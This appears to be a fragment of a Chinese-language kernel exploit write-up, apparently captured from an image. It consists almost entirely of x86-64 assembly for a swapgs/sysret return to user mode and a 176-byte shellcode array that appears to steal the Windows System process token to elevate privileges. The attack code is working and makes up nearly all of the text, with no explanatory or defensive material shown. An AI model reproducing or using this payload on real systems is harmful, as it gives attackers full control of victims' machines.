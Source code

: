 ```bash
    mov     cx, [rax+1E4h]
    inc     cx
    mov     [rax+1E4h], cx
    mov     rdx, [rax+90h]
    mov     rcx, [rdx+168h]
    mov     r11, [rdx+178h]
    mov     rsp, [rdx+180h]
    mov     rbp, [rdx+158h]
    xor     eax, eax
    swapgs
    o64 sysret
```

得到 shellcode

```bash
unsigned char cmd[176] = {
    0x48, 0x31, 0xC0, 0x65, 0x48, 0x8B, 0x80, 0x88, 0x01, 0x00, 0x00, 0x48,
    0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, 0x49, 0x89, 0xC1, 0x48, 0x8B, 0x80,
    0x48, 0x04, 0x00, 0x00, 0x48, 0x8B, 0x00, 0x48, 0x8B, 0x50, 0xF8, 0x49,
    0x89, 0xC0, 0x48, 0x8B, 0x00, 0x48, 0x83, 0xFA, 0x04, 0x75, 0xF0, 0x49,
    0x8B, 0x50, 0x70, 0x48, 0x83, 0xE2, 0xF8, 0x49, 0x8B, 0x89, 0xB8, 0x04,
    0x00, 0x00, 0x48, 0x83, 0xE1, 0x07, 0x48, 0x01, 0xCA, 0x49, 0x89, 0x91,
    0xB8, 0x04, 0x00, 0x00, 0x49, 0x8B, 0x50, 0x70, 0x48, 0x83, 0xE2, 0xF0,
    0x48, 0x8B, 0x5A, 0x40, 0x49, 0x8B, 0x89, 0xB8, 0x04, 0x00, 0x00, 0x48,
    0x83, 0xE1, 0xF0, 0x48, 0x89, 0x59, 0x40, 0x48, 0x89, 0x59, 0x48, 0x65,
    0x48, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 0x66, 0x8B, 0x88, 0xE4,
    0x01, 0x00, 0x00, 0x66, 0xFF, 0xC1, 0x66, 0x89, 0x88, 0xE4, 0x01, 0x00,
    0x00, 0x48, 0x8B, 0x90, 0x90, 0x00, 0x00, 0x00, 0x48, 0x8B, 0x8A, 0x68,
    0x01, 0x00, 0x00, 0x4C, 0x8B, 0x9A, 0x78, 0x01, 0x00, 0x00, 0x48, 0x8B,
    0xA2, 0x80, 0x01, 0x00, 0x00, 0x48, 0x8B, 0xAA, 0x58, 0x01, 0x00, 0x00,
    0x31, 0xC0, 0x0F, 0x01, 0xF8, 0x48, 0x0F, 0x07
};
```
